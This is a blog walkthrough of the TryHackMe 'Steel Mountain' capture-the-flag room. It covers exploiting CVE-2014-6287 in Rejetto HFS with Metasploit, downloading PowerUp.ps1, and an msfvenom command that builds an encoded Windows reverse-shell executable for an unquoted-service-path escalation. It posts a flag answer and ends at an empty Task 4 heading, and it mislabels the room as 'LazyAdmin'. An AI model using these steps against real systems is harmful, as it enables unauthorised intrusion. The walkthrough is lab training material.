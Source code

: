 ```yaml
---
title: "Steel Mountain - TryHackMe Walkthrough by Nisha"
layout: single
toc: true
toc_label: "Table of Contents"
toc_icon: "list-alt"
toc_sticky: true
classes: wide
author_profile: true
excerpt: "Hack into a Mr. Robot themed Windows machine. Use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and learn a new technique to get Administrator access."
read_time: true
comments: no
share: true
related: true
description: "Hack into a Mr. Robot themed Windows machine. Use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and learn a new technique to get Administrator access."
categories:
  - Blog
tags:
  - Cybersecurity
  - Windows
  - Penetration Testing
  - Ethical Hacking
  - TryHackMe
  - CTF
  - Privilege Escalation
tagline: "Steel Mountain - TryHackMe Walkthrough by Nisha"
header:
  teaser: /assets/images/thm/ctf/steelmountain/
  overlay_filter: rgba(0, 0, 0, 0.5)
  overlay_image: /assets/images/thm/thm-ice-0.png
  caption: "Photo credit: [**imgur**](https://imgur.com/6Ijftag)"
categories: 
  - Blog
tags: 
  - TryHackMe
  - CTF
  - Privilege Escalation
  - Web Exploits
  - Reverse Shell
  - Enumeration
  - Cybersecurity
  - Linux Privilege Escalation
toc: true
toc_sticky: true
---
```


## Overview

This walkthrough demonstrates how I exploited the **LazyAdmin** room on [TryHackMe](https://tryhackme.com/room/steelmountain"). Each section includes detailed explanations of the enumeration, exploitation, and privilege escalation processes. 


## Task 1 - Introduction

Deploy the machine.

<img src="/assets/images/thm/steelmountain/thm-steel-mountain-1.png">

Q: Who is the employee of the month?

A: Bill Harper


<img src="/assets/images/thm/steelmountain/thm-steel-mountain-2.png">

<img src="/assets/images/thm/steelmountain/thm-steel-mountain-3.png">

<img src="/assets/images/thm/steelmountain/thm-steel-mountain-4.png">


## Task 2 - Initial Access

<strong>Q: Scan the machine with nmap. What is the other port running a web server on? </strong> <br>

<em> A: 8080 </em>

<strong>Q: Take a look at the other web server. What file server is running?</strong> <br>
<img src="/assets/images/thm/steelmountain/thm-steel-mountain-6.png">

<em>A: Rejetto HTTP File Server</em>


<strong>Q: What is the CVE number to exploit this file server?</strong> <br>

<img src="/assets/images/thm/steelmountain/thm-steel-mountain-5.png">

<em>A: 2014-6287</em>

<strong>Q: Use Metasploit to get an initial shell. What is the user flag?</strong> <br>

<img src="/assets/images/thm/steelmountain/thm-steel-mountain-7.png">

<img src="/assets/images/thm/steelmountain/steelmountain/thm-steel-mountain-8.png">
<img src="/assets/images/thm/steelmountain/thm-steel-mountain-9.png">
<img src="/assets/images/thm/steelmountain/thm-steel-mountain-10.png">

<img src="/assets/images/thm/steelmountain/thm-steel-mountain-11.png">
<img src="/assets/images/thm/steelmountain/thm-steel-mountain-12.png">

<em>A: b04763b6fcf51fcd7c13abc7db4fd365</em>


## Task 3 - Privilege Escalation

We have an initial shell on this machine as user Bill.  Now, we will further enumerate the machine and escalate our privileges to root to obtain the final flag!

We can use the PowerUp PowerShell script to esclate our privileges.

Download the script using the following command:

```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
```
<img src="/assets/images/thm/steelmountain/thm-steel-mountain-13.png">


We will use the upload command in Metasploit to upload the script. 

To execute this using Meterpreter, we will type load powershell into meterpreter. Then we will enter powershell by entering powershell_shell:

<img src="/assets/images/thm/steelmountain/thm-steel-mountain-14.png">


Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?

<img src="/assets/images/thm/steelmountain/thm-steel-mountain-15.png">

- AdvancedSystemCareService9

Use msfvenom to generate a reverse shell as an Windows executable.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=CONNECTION_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
```

<img src="/assets/images/thm/steelmountain/thm-steel-mountain-14.png">

## Task 4 - Access and Escalation Without Metasploit 

